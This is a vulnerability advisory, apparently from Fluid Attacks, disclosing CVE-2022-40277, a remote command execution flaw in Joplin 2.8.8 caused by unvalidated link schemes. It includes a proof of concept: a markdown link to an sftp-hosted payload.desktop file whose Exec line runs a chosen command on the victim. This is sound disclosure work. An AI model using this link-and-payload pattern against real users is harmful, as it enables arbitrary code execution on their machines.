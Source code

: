 ```yaml
---
slug: advisories/skrillex/
title: Joplin 2.8.8  -  Remote Command Execution
authors: Carlos Bello
writer: cbello
codename: skrillex
product: Joplin 2.8.8
date: 2022-09-26 17:00 COT
cveid: CVE-2022-40277
severity: 7.7
description: Joplin 2.8.8  -  Remote Command Execution - Remote command execution
keywords: Fluid Attacks, Security, Vulnerabilities, Joplin, Exploitation
banner: advisories-bg
advise: yes
template: advisory
---
```


## Summary

|                       |                                                        |
| --------------------- | -------------------------------------------------------|
| **Name**              | Joplin 2.8.8  -  Remote Command Execution              |
| **Code name**         | [Skrillex](https://en.wikipedia.org/wiki/Skrillex)     |
| **Product**           | Joplin                                                 |
| **Affected versions** | Version 2.8.8                                          |
| **State**             | Public                                                 |
| **Release date**      | 2022-09-26                                             |

## Vulnerability

|                       |                                                                                                        |
| --------------------- | ------------------------------------------------------------------------------------------------------ |
| **Kind**              | Remote command execution                                                                               |
| **Rule**              | [004. Remote command execution](https://docs.fluidattacks.com/criteria/vulnerabilities/004)            |
| **Remote**            | Yes                                                                                                    |
| **CVSSv3 Vector**     | CVSS:3.1/AV:L/AC:H/PR:N/UI:R/S:C/C:H/I:H/A:H                                                           |
| **CVSSv3 Base Score** | 7.7                                                                                                    |
| **Exploit available** | Yes                                                                                                    |
| **CVE ID(s)**         | [CVE-2022-40277](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-40277)                        |

## Description

Joplin version 2.8.8 allows an external attacker to execute arbitrary
commands remotely on any client that opens a link in a malicious
markdown file, via Joplin. This is possible because the application
does not properly validate the schema/protocol of existing links in
the markdown file before passing them to the shell.openExternal
function.

## Vulnerability

This vulnerability occurs due to improper scheme/protocol validation
of external URLs. Here is a small example to give you a better
understanding of vulnerability.

![image](https://user-images.githubusercontent.com/51862990/189775403-75f4e110-50f0-4afb-8cd6-63dd2c651b16.png)

Basically what the application is doing is sending to
shell.openExternal(url), any url present in the markdown
file.

## Exploitation requirements

To achieve the RCE, the attacker will abuse certain schemes/protocols.
Some of these only work on windows, others on MACos, others only work
correctly under certain specific Linux distributions. In my case, I
used Xubuntu 20.04 (Xfce) to simulate a victim. I chose this
distribution because in its default configuration it executes the
payload.desktop file after mounting the remote location where the
payload file is located. In other Linux distributions by default these
files are not executed once the remote location is mounted.

In the resources section I will provide you with support material so
that you can understand in greater depth what I have just explained.

## Exploitation

To exploit this vulnerability, you must send the following file to a
user to open with Joplin:

### exploit.md

```markdown
[exploit](sftp://user@server/uploads/payload.desktop)
```

### payload.desktop

In the Exec parameter you put the command you want the victim to execute.

```txt
[Desktop Entry]
Exec=xmessage "RCE by cbelloatfluid"
Type=Application
```

## Evidence of exploitation

![RCE-Joplin](https://user-images.githubusercontent.com/51862990/189775676-83553248-0452-4df4-a9c1-7b65bbbe4792.gif)

## Our security policy

We have reserved the CVE-2022-40277 to refer to this issue from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: Joplin 2.8.8

* Operating System: GNU/Linux - Xubuntu 20.04 (Xfce)

## Mitigation

There is currently no patch available for this vulnerability.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from Fluid Attacks'
Offensive Team.

## References

**Vendor page** <https://github.com/laurent22/joplin>

## Timeline

<time-lapse
  discovered="2022-09-07"
  contacted="2022-09-08"
  replied=""
  confirmed=""
  patched=""
  disclosure="2022-09-26">
</time-lapse>
